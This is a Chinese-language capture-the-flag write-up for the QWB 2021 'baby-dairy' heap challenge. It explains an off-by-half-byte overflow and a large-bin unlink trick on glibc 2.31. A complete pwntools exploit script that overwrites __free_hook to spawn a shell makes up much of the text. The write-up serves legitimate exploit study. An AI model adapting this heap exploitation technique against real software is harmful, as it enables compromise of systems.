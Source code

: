 ```yaml
---
title: Off By Half Byte:Baby-Dairy
date: 2021-07-02 14:53:19
tags: 
layout: post
---
```

baby-dairy qwb 2021
<!--more-->
# Ana

`libc version` == 2.31

漏洞点：

1. add会比输入的size大一个字节之后会补零，之后会往内容后面多半个字节写一个`checksum`(暂且称之为`offby0.5`)
2. `show`的时候会检查`checksum`不过写的有些问题用的是`&1`所以一半可能性能`show`出来（虽然`index`和`ptr`和`size`会被检查）

虽然做完之后感觉也没啥，但是这种利用`large bin`的方式很巧妙值得一篇单独的wp。

# Solution

本题之中开始时能用的上的只有 `offby0.5`,不能控制`size`大小所以只能控制`inuse`，这时候只能走`unlink`。因为`unlink`会检查 `fd→bk` 和`bk→fd`，但是没有泄漏，所以需要借助已有的地址，至于为什么要用`largin bin`因为`large bin`可以直接提供两个指向自己的`heap`指针且恰好可以设计size=presize（其实我是马后炮，我是看了队友给出的一篇[文章][1]发现2.29没泄漏走`large bin`比较快）。

一个`large bin`一般长这样，我们构造我们的fake chunk 再`large bin +0x10`处，将`bk`改成`size`，使其等于`persize`，`presize`自己算，恰好把`fake` `chunk`给`unlink`掉。

```bash
large bin (splited):
--------------------------------
presize       size
--------------------------------
fd            bk
--------------------------------
fd_nextsize   bk_nextsize
--------------------------------
unsorted bin
...
--------------------------------
attack chunk:(which offby0.5/with a fake presize)
--------------------------------
victim: (which would consolidate backforward)
...
--------------------------------
```

我们的写指针从`fd`开始写，当只有一个`large bin`的时候`nextsize`指针都指向自己，这是个优势我们如果要满足`unlink`只需要

1. `presize` = `large bin` +0x10
2. `fd` = `bk`-0x8
3. `size` = `pre_size`

通过以下手段满足：

1. 用`fastbin chain`（`tcache` 的话`key`会覆盖掉`fake chunk`的`size`）来放一个`heap`地址之后`partial` `write`掉指向`fake chunk`
2. `fd`可以`partial write`最后一个字节，倒数第二字节需要碰运气恰好为00（当然最后1.5字节要自己调成0，此处需要1/16的概率），之后程序会改掉2.5字节所以再需要1/16的概率。

这样只要设置好 `attack chunk`的 `fake presize`之后`free` 掉 `attack chunk` 就可以`overlap` `unsorted bin`，接下来就是常规操作了。

# EXP(1/256)

```python
from pwn import *
context.arch='amd64'
def cmd(c):
    p.sendlineafter(">> ",str(c))
def add(size,c='A\n'):
    cmd(1)
    p.sendlineafter(": ",str(size-1))
    p.sendafter(": ",c)
def free(c):
    cmd(3)
    p.sendlineafter(": ",str(c))
def show(c):
    cmd(2)
    p.sendlineafter(": ",str(c))
p=process("./pwn")
#context.log_level='debug'
add(0xd60)#0
add(0x6f8+0x20)#1
add(0x208)#2
add(0x488)#3
add(0x28)#4
free(1)
add(0xAAA)#1
add(0x18,"A\n")#5
add(0xAAA)#6
add(0x28,p64(1+0xd)+p64(0x901)+b'\x18'+b'\n')#7
for x in range(8,8+8):
    add(0x28)
for x in range(8,8+8):
    free(x)
free(7)
for x in range(7,7+7):
    add(0x28)
add(0x28,'\x30\n')#14
free(2)
add(0x208,'\0'*0x207)#2
free(2)
add(0x208,'\0'*0x1ff+'\x09'+'\n')#2
# context.terminal=['tmux','split']
# gdb.attach(p,'''
# set *0x55555555a040=0x000055555555a018
# set *0x000055555555a030=0x000055555555a030
# q
# ''')
context.terminal=['tmux','split','-h']
free(3)
add(0x548)#3
context.log_level='debug'
add(0x28,'A'*0x16+'\n')#15
add(0x160)#16
#raw_input()
show(15)
p.readuntil(": ")
base=u64(p.readline()[:-1]+b'\0\0')-(0x7f83ef52dbe0-0x7f83ef342000)
log.warning(hex(base))
#gdb.attach(p)
add(0x28)#17
add(0x28)#18
add(0x28)#19
add(0x28)#20
for x in range(7,7+6):
    free(x)
free(18)
free(20)
free(15)
show(17)
p.readuntil(": ")
heap=u64(p.readline()[:-1]+b'\0\0')-0x1230
log.warning(hex(heap))
free(19)
free(17)
for x in range(7,7+6):
    add(0x28)
add(0x28)#15
add(0x28,p64(base+0x1eeb28)+b'\n')#17 - > free hook 
add(0x28,'/bin/sh\0\n')#18
add(0x28)#19
add(0x28,p64(base+0x55410)+b'\n')#20
#gdb.attach(p,'b free')
free(18)
p.interactive()
```

# 总结

利用`large bin`的结构`partial write`来满足`unlink`的思路是很骚了。

即使是末尾补0，无泄露也挡不住`0ffby0.5`，这题挺有意思的。

[1]: https://www.anquanke.com/post/id/236078?ivk_sa=1024320u#h3-14